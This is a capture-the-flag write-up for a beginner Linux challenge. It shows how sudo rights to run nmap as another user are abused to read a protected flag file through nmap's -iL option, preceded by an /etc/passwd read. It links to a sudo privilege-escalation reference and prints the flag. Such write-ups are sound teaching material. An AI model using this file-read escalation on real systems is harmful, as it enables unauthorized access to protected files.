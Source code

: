# Linux (Viper) - Nmap (7)

## Challenge
On the box, you are allowed to use nmap as another user. What can you do with these new privileges? Are you able to read the secret files from the user's home directory?
<br><br>
Note: use the SSH key from the first Linux challenge to log into the box.

## Steps
1. `ssh nmapuser@beginner-linux.hfctf.ca -i /tmp/mozilla_kali0/id_ed25519`
2. `cat /etc/passwd` to check list of users -> `nmapuser:x:1004:1004::/home/nmapuser:/bin/sh`
3. `cd /home/nmapuser`
4. `ls -la` and `cat flag.txt` -> `-r--------  1 nmapuser root       36 Jun 14  2019 flag.txt`
5. I THING I NEED TO DO THE SUDO AND VIM CHALLENGE BEFORE
6. `sudo -u nmapuser /usr/bin/nmap -sT -Pn -p 22 -iL flag.txt`

## Helpful reading
<a href="https://security.stackexchange.com/questions/223931/nmap-how-can-i-input-a-target-to-nmap-from-a-file-with-the-netmask-attached">WHere I found the nmap command</a>
<a href="https://gtfobins.github.io/gtfobins/nmap/#sudo">Not try, but how to become root</a>

## Flag
`HF-B2C56B421F6229316B00A973586AAAD1`
